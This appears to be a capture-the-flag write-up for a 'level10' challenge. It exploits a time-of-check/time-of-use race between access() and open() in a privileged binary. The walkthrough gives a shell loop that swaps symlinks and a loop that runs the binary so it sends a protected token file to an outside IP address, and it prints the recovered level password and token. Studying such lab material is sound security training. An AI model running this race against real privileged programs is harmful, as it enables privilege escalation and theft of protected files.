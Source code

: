 level10:s5cAJpM8ev6XHw998pRWG728z

send a file to a host on port 6969.
check access to file and send its content

the check is made by `access` with the flag `4` = `R_OK` so just check if it can be read

lets try to create a symlink => `ln -s /home/user/level08/token /tmp/test`

it doesnt work.

The program is using access to check if we can open the file
and then open the file but `open` open the file as the user it is executed with so `flag10` anyway
So we can try to catch the small amount of time between `access` and `open` to switch to file being read.
Lets create a script:
```shell
#!/bin/sh

echo -n "" > /tmp/test

counter=0
while true; do
    
    ln -sf /tmp/test /tmp/magic
    ln -sf /home/user/level10/token /tmp/magic
    counter=$((counter + 1))
    printf "\r[%d] - Running...                          " "$counter"
done
```

```shell
while true; do ./level10 /tmp/magic 192.168.1.88; done
```

`woupa2yuojeeaaed06riuj63c`